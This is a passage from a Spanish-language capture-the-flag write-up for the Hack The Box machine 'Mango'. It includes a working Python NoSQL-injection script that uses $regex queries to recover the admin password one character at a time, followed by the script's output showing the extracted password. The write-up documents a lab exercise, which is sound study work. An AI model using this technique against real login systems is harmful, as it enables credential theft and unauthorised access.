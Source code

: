 > Una nota de importancia, el POST con x-www-form-urlencoded fue la parte que me dio dolores de cabeza en la siguiente parte, puesto que iba implícito en el request y fue me hizo perder tiempo ver que no obtenía CODE 302.

Al entrar a la aplicación vemos que dentro del body de `home.php`, hay un correo que nos dice sobre la existencia de un usuario admin; `admin@mango.htb`. Así que ahora vamos por este usuario.

## admin

Dentro de las notas de payloadAllTheThings, hay un script de como realizar un brute force en peticiones POST, que convenientemente modificamos para esta máquina.

``` python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

password=""
u="http://staging-order.mango.htb/index.php"
headers = {'application' : 'x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload={'username[$eq]':'admin', 'password[$regex]': '^%s' %(password + c), 'login': 'login' }
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

- Dejamos fijo el valor del usuario, en este caso **admin**.
- Lo único que necesitamos es un código de respuesta **302** para saber que la petición fue correcta.
- Dentro de los headers, necesitamos que nuestra petición POST tenga x-www-form-urlencoded para que el servidor la acepte.

Este brute forcer funciona gracias a las expresiones regulares, por que lo que realiza es preguntarle a la aplicación si la contraseña inicia con 'X', donde esto es un char imprimible y poco a poco, la aplicación le va contestando que "Si" conforme se le vuelve a preguntar (incremental). Cuando analice esto la primera vez, en mi cabeza se puso la imagen de: día de examen, el alumno preguntón que va y le pregunta al maestro si va bien y mal en 'X' parte. Se levanta una y otra vez a preguntarle al profesor. "Robo hormiga".

Al ejecutar el script tenemos lo siguiente:

``` text
tony@laptop:~/htb/mango$ python discover_admin.py
Found one more char : t
Found one more char : t9
Found one more char : t9K
Found one more char : t9Kc
Found one more char : t9KcS
Found one more char : t9KcS3
Found one more char : t9KcS3>
Found one more char : t9KcS3>!
Found one more char : t9KcS3>!0
Found one more char : t9KcS3>!0B
Found one more char : t9KcS3>!0B#
Found one more char : t9KcS3>!0B#2
Found one more char : t9KcS3>!0B#2$
Found one more char : t9KcS3>!0B#2$$
Found one more char : t9KcS3>!0B#2$$$
```